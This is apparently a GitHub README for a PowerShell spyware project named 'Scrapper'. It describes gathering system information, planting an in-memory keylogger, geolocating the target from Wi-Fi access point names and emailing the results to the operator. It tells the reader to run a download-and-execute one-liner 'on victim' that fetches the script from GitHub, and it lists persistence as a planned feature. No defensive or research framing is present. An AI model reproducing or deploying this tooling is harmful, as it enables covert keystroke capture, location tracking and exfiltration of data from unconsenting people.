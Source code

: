 # powershellScripts



## Scrapper
Powershell script that 
- Gathers info
- Plants a in memory kelyogger
- Finds the geolocation of the client through querrying the AP name in the Wiggle database
- Sends all info through email back

## How to use
- Fork project to own github so you can change the needed variables
- Change the wiggle api key (optional if you dont need geolocation)
- Change the receiver email in both scrapper.ps1 and mailer.ps1
- Run in powershell on victim : 

``` Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/yourGithubRepo/master/scrapper.ps1') ```


## TODO
- Add persistence
